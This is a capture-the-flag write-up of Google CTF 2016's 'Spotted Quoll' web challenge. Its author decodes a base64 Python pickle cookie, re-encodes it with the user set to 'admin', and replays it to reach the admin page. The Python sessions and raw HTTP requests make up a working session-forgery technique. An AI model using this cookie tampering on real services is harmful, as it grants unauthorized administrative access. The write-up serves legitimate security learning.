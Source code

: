 ```yaml
---
title: "GoogleCTF - Spotted Quoll Write-Up"
date: "2016-05-01"
slug: "googlectf-spotted-quoll-write-up"
Categories:
- CTF
---
```


## Intro

I participated in the Google CTF this weekend and really enjoyed the challenges. Here is a
write-up of one of my solutions.

## Challenge

**Spotted Quoll** was a web challenge worth 50 points. The details of the challenge are in the image below.

<img src="/images/gctf_2016/problem.png"/>


I loaded up the blog and looked for any clues:

<img src="/images/gctf_2016/blog.png"/>

<!--more-->

## Solution

I started up *burp* and reloaded the page. I navigated to the <code>/admin</code> section of the blog and received an error:

<img src="/images/gctf_2016/error.png"/>

A cookie called "obsoletePickle" was being passed with my requests.

{{< highlight html >}}
      GET / HTTP/1.1
      Host: spotted-quoll.ctfcompetition.com
      User-Agent: foo
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate, br
      Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
      Connection: close
{{< /highlight >}}

I recognized the pickle module from my python studies.

      The pickle module implements a fundamental, but powerful algorithm for serializing and de-serializing a Python object structure.

I loaded up the string in python and decoded it:

{{< highlight bash >}}
$ python
>>> import pickle
>>> import base64
>>> pickle.loads('KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'.decode('base64'))
{'python': 'pickles', 'subtle': 'hint', 'user': None}
{{< /highlight >}}

Interesting - it clearly shows 'user' with no value. Let's modify the cookie to change the user to 'admin'.

{{< highlight bash >}}
>>> pickle.dumps({'python': 'pickles', 'subtle': 'hint', 'user': 'admin'})
"(dp0\nS'python'\np1\nS'pickles'\np2\nsS'subtle'\np3\nS'hint'\np4\nsS'user'\np5\nS'admin'\np6\ns."
>>> p = pickle.dumps({'python': 'pickles', 'subtle': 'hint', 'user': 'admin'})
>>> msg = base64.b64encode(p)
>>> print msg
KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQKc1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4=
>>> pickle.loads('KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQKc1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4='.decode('base64'))
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}””
{{< /highlight >}}

Now instead of *user* being 'None' it is 'admin':

      {'python': 'pickles', 'subtle': 'hint', 'user': admin}

I reloaded the <code>/admin</code> page and submitted my modified cookie.

      GET /admin HTTP/1.1
      Host: spotted-quoll.ctfcompetition.com
      User-Agent: foo
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate, br
      Cookie: obsoletePickle=KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQKc1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4=
      Connection: close

<img src="/images/gctf_2016/solution.png"/>

Success! The flag is "CTF{but_wait,theres_more.if_you_call}"
